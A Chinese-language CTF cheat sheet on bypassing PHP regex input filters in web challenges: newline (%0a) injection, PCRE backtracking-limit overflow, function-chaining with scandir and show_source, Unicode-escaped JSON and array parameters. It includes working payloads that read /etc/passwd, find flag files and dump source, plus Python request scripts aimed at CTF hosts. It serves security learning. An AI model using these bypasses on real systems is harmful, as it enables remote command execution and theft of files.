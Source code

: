 ## **特殊正则绕过1**
```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias省略见下面|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|
compgen|complete|continue|declare|dirs|disown|
echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|
kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|
shopt|source|suspend|test|times|trap|type|typeset|ulimit|
umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) 

```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
#### **1、%0a绕过**
因为正则匹配中'^'和'$'代表的是行的开头和结尾,所以能利用换行绕过。
![](.topwrite/assets/image_1728045913134.png)
```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
cmd=%0a%0a{"cmd":"/usr/bin/find%20/%20-name%20flag*"}%0a%0a
```

其他案例：
```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```
$_SERVER['QUERY_STRING']获取查询语句，既要绕过get参数中下划线_的过滤，用.替换，还要绕过正则匹配的23333，通过%0a。
```
?b.u.p.t=23333%0a
```
其他案例：
```
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
```
传$a=php%0a1

^
#### **2、回溯次数超限绕过**
```
import requests as res

url="http://a3388f0b-b347-4570-ad9e-88649da2aa29.node4.buuoj.cn:81/"
while(True):
    payload=input("resp:")
    resp=res.get(url,params={"cmd":'\x0a\x0a{"cmd":"%s"}\x0a\x0a'%(payload)})
    print(resp.text)
```


其他案例：
```
if(preg_match('/.+?ctfshow/is', $f)){ //不要有字符+ctfshow
    die('bye!');
}
if(stripos($f, 'ctfshow') === FALSE){ //要有ctfshow
    die('bye!!');
}
```
当回溯的次数绕过了25万是preg_match返回的非1和0，而是false，所以可以绕过preg_match函数。
```
import requests
 
url='http://8d380352-394f-4754-8bde-5c906930bcd2.challenge.ctf.show/'
data={
    'f':'very'*250000+'ctfshow'
}
r=requests.post(url=url,data=data).text
print(r)
```


^
## **无字母RCE绕过**
不可大于字符：1、url 。2、异或。3、或。4、与。5、取反
自增


^
## **冷门函数绕过正则**
```
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
```
保留的英文字母和英文()，就是使用函数绕过。
构造：?c=print_r(scandir(pos(localeconv()))); 
得到：Array ( [0] => . [1] => … [2] => flag.php [3] => index.php ) 
现在要读取到倒数第二的文件，使用数组逆序函数 
构造：?c=print_r(array_reverse(scandir(pos(localeconv())))); 
得到：Array ( [0] => index.php [1] => flag.php [2] => … [3] => . ) 
再进行读取指定到第二个 构造：?c=print_r(next(array_reverse(scandir(pos(localeconv()))))); 
源码读取指定的：?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

更多函数参考：
```
each() 返回数组中当前的键/值对并将数组指针向前移动一步
end() 将数组的内部指针指向最后一个单元
next() 将数组中的内部指针向前移动一位
prev() 将数组中的内部指针倒回一位
array_reverse() 以相反的元素顺序返回数组
localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号(.)
pos()：返回数组中当前元素的值
scandir()：获取目录下的文件
array_reverse()：将数组逆序排列
next()：函数将内部指针指向下一元素，并输出
print_r(scandir(‘.’)); 查看当前目录下的所有文件名
current() 函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名
```

^
^
## **JSON绕过关键词过滤**
JSON可以使用UNicode的16进制编码绕过。
如
```
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}
```

^
## **传参变数组绕过**
```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
die('Invalid nickname');

这里只需要
nickname=;;;;;
变成
nickname[]=;;;;
即可绕过
```